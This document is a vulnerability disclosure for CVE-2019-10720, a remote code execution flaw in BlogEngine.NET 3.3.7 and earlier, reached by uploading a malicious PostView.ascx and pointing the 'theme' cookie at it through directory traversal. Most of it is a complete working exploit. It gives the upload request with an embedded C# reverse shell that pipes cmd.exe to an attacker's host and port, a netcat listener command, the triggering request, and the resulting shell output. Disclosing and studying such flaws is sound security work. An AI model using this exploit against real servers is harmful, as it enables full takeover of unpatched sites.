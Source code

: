 A remote code execution (RCE) attack, CVE-2019-10720, exists on BlogEngine.NET versions 3.3.7 and earlier.  A user with privileges to add/upload files could upload a malicious `PostView.ascx` file and exploit a directory traversal in the **theme** cookie to trigger the RCE.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 17 Jun 2019

## Description

The application will use the **theme** cookie if the **theme** parameter is not set:

~~~{command="BlogEngine.Core/BlogSettings.cs"}
413         public string Theme
414         {
415             get
416             {
417                 var context = HttpContext.Current;
418                 if (context != null)
419                 {
420                     var request = context.Request;
421                     if (request.QueryString["theme"] != null)
422                     {
423                         return request.QueryString["theme"];
424                     }
425
<r:b>426                     var cookie = request.Cookies[this.ThemeCookieName];
427                     if (cookie != null)
428                     {
429                         return cookie.Value;
430                     }</r:b>
~~~

The **theme** cookie is vulnerable to a directory traversal; the **theme** cookie can be set to a folder that contains a malicious `PostView.ascx`, such as `.../../App_Data/files`.  The malicious code contained in `PostView.ascx` will be executed.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10720/exploit.py>

A malicious file can be uploaded using `File Manager` in the application, `/api/upload?action=file`, or `/api/upload?action=filemgr`. In the following example `/api/upload?action=file` is used to upload the malicious `PostView.ascx` file:

<pagebreak></pagebreak>

~~~
POST /api/upload?action=file HTTP/1.1
Host: <r:var>$RHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: .AUXBLOGENGINE-96d5b379-7e1d-4dac-a6ba-1e50db561b04=<r:redacted>COOKIE</r:redacted>
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

		using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<r:var>$LHOST</r:var>", <r:var>$LPORT</r:var>)) {
			using(System.IO.Stream stream = client.GetStream()) {
				using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
					streamWriter = new System.IO.StreamWriter(stream);

					StringBuilder strInput = new StringBuilder();

					System.Diagnostics.Process p = new System.Diagnostics.Process();
					p.StartInfo.FileName = "cmd.exe";
					p.StartInfo.CreateNoWindow = true;
					p.StartInfo.UseShellExecute = false;
					p.StartInfo.RedirectStandardOutput = true;
					p.StartInfo.RedirectStandardInput = true;
					p.StartInfo.RedirectStandardError = true;
					p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
					p.Start();
					p.BeginOutputReadLine();

					while(true) {
						strInput.Append(rdr.ReadLine());
						p.StandardInput.WriteLine(strInput);
						strInput.Remove(0, strInput.Length);
					}
				}
			}
		}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
		StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

The exploit can be triggered by opening a `netcat` listener:

~~~{command="nc -nlvp <r:var>$LPORT</r:var>"}
listening on [any] <r:var>$LPORT</r:var> ...
~~~

Browsing to the application with the **theme** cookie set to `../../App_Data/files/2019/06/`, no authentication required, triggers the Code Execution and opens a reverse shell:

~~~
GET / HTTP/1.1
Host: <r:var>$LHOST</r:var>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: <r:var>theme</r:var>=<r:b>../../App_Data/files/2019/06</r:b>;
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp <r:var>$LPORT</r:var>"}
listening on [any] <r:var>$LPORT</r:var> ...
connect to [<r:var>$LHOST</r:var>] from (UNKNOWN) [<r:var>$RHOST</r:var>] 49822
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
ipconfig
C:\Windows\system32>ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
~~~